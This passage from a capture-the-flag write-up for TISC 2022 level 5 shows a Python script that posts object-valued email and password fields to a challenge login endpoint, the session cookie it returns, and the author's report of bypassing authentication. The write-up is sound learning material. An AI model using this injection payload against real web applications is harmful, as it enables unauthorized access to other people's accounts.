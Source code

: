 Thankfully enough, there is only one user that is registered in the database as seen in in `mysql-init/init.sql` file:

```sql
INSERT INTO `users` (`email`, `password`) VALUES ("REDACTED@REDACTED", "REDACTED");
```
Here's a script that I used to authenticate and print a cookie that can be used for the other parts of this challenge:

```python
import requests
import json

url = "http://chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627"
body = {"email": {"email":1},
        "password": {"password":1}
        }
login_url = f"{url}/login"
r = requests.post(login_url, json=body)

for c in r.cookies:
    if c.name == "connect.sid":
        print(c.name, c.value)
```

I ran the script to get a cookie:

```bash
└─$ python3 login.py
connect.sid s%3AZtg1Ilaj_1kRPexPD2nopZUCN0SF_GIF.ESM4lx5LkmWvf57fvccsa%2Bh8ADOVPGLGZO1Sh4YMidg
```

I put it in the browser and success, I have bypassed the authentication system and can successfully navigate to other parts of the web application!

![Login-Bypass](/images/posts/tisc-2022-level5-login-bypass.PNG)
